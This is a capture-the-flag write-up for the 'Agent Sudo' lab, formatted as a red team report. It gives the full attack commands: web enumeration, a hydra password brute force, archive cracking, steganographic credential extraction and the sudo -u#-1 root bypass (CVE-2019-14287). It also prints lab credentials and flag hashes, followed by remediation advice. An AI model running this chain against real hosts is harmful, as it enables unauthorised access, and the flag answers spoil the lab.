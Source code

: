 # 🛡️ Red Team Engagement Report: Agent Sudo (Detailed Analysis)

## 1. Executive Summary

This report details a successful red team operation conducted on **July 19, 2025**, resulting in the complete compromise of the host at **10.10.11.80**. The engagement demonstrates how a combination of seemingly minor security flaws—information disclosure, weak credentials, and a vulnerable configuration—can be chained together to achieve full administrative access.

The attack path began with web application enumeration, which revealed a valid system username (`chris`). This information was leveraged to perform a targeted brute-force attack against the exposed FTP service, successfully guessing a weak password. This initial access allowed for the exfiltration of files containing hidden credentials for a second user, which were extracted using steganography. Finally, privilege escalation to root was achieved by exploiting **CVE-2019-14287**, a known vulnerability in a misconfigured sudo policy that was intended to prevent root access.

> 💡 This operation highlights that even simple information leaks can provide the critical first step an attacker needs to unravel an organization's security posture.

---

## 2. Technical Kill Chain Narrative

The attack progressed through a logical sequence of reconnaissance, initial access, and privilege escalation.

### 2.1 Reconnaissance & Initial Enumeration 🕵️

**Objective:** Map the target's attack surface and identify potential entry points.

#### Port Scanning

An Nmap scan of `10.10.11.80` identified three primary services:

- **21/tcp (FTP):** vsftpd 3.0.3  
- **22/tcp (SSH):** OpenSSH 7.6p1  
- **80/tcp (HTTP):** Apache httpd 2.4.29  

#### Web Enumeration

The web server on port 80 presented a message requiring a custom User-Agent. By setting the agent to `"C"`:

```bash
curl -A "C" http://10.10.11.80/
```

A redirect was discovered to a hidden page: `agent_C_attention.php`, which leaked:

> "Attention chris, ... change your god damn password, is weak!"

**Conclusion:** This enumeration phase yielded a valid username (`chris`) and a strong indication of a weak password. The FTP service became the logical target.

---

### 2.2 Initial Access & Foothold 🔑

**Objective:** Convert gathered intelligence into a shell on the target system.

#### Credential Brute-Force

```bash
hydra -t 16 -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.11.80
```

Successfully cracked FTP password: `crystal`.

#### Data Exfiltration and Steganography

Files downloaded from FTP:

- `cutie.png`
- `cute-alien.jpg`
- `To_agentJ.txt`

##### Step A - Find Archive

```bash
binwalk -e cutie.png
```

Revealed a password-protected ZIP archive.

##### Step B - Crack Archive

```bash
zip2john secret.zip > zip.hash
john zip.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

Password: `alien`

##### Step C - Find Passphrase

Decrypted `To_agentR.txt` containing Base64 string: `QXJlYTUx` → Decodes to: `Area51`

##### Step D - Extract Credentials

```bash
steghide extract -sf cute-alien.jpg -p Area51
```

Message revealed SSH creds: `james:hackerrules!`

#### Establish Shell

```bash
ssh james@10.10.11.80
```

Initial shell acquired as user `james`.

---

### 2.3 Privilege Escalation 🚀

**Objective:** Escalate privileges to root.

#### Check sudo Privileges

```bash
sudo -l
```

Output:

```
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
```

#### Exploit CVE-2019-14287

```bash
sudo -u#-1 /bin/bash
```

UID `-1` maps to `0` (root) on vulnerable sudo versions, bypassing the `!root` restriction.

#### Access Achieved

Root flag read from `/root/root.txt`. Privilege escalation successful.

---

## 3. Vulnerabilities and Actionable Recommendations

### V-01: Information Disclosure on Web Server (High)

- **Description:** Web application leaked a system username.
- **Recommendation:** Remove debugging info; protect sensitive endpoints with auth.

### V-02: Weak Credentials on Exposed Service (Critical)

- **Description:** FTP user `chris` used weak password `crystal`.
- **Recommendation:** Enforce strong password policy. Disable FTP in favor of SFTP.

### V-03: Insecure Data Storage via Steganography (High)

- **Description:** SSH creds hidden in images.
- **Recommendation:** Use centralized secret storage (e.g., Vault). Never store creds in files.

### V-04: Sudo Privilege Escalation via Misconfiguration (Critical)

- **Description:** Misuse of `!root` in sudoers allowed root via CVE-2019-14287.
- **Recommendation:** 
  - Patch sudo to >= `1.8.28`  
  - Avoid deny-lists. Use strict allow-lists following least privilege.

---

**Flags Captured:**  
- `user.txt`: `b03d975e8c92a7c04146cfa7a5a313c7`  
- `root.txt`: `b53a02f55b57d4439e3341834d70c062`  

---

*Report prepared by: **666** | Red Team Operator*  
*Engagement complete: ✅*

